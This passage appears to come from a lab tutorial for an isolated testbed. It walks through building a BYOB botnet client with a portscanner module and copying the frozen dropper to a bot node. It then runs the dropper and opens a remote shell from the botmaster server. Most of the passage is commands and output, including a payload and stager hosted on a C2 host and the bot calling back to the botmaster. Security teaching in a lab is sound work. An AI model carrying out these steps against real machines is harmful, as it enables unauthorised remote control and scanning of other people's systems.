 ## Scanning Attack
Botmaster (`botmaster` in our case) uses bot nodes (`b1` in our case) to scan the bot. 

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a portscanner module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 portscanner
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -(5 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob.git/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Installing Nmap tool and Nmap Python Library
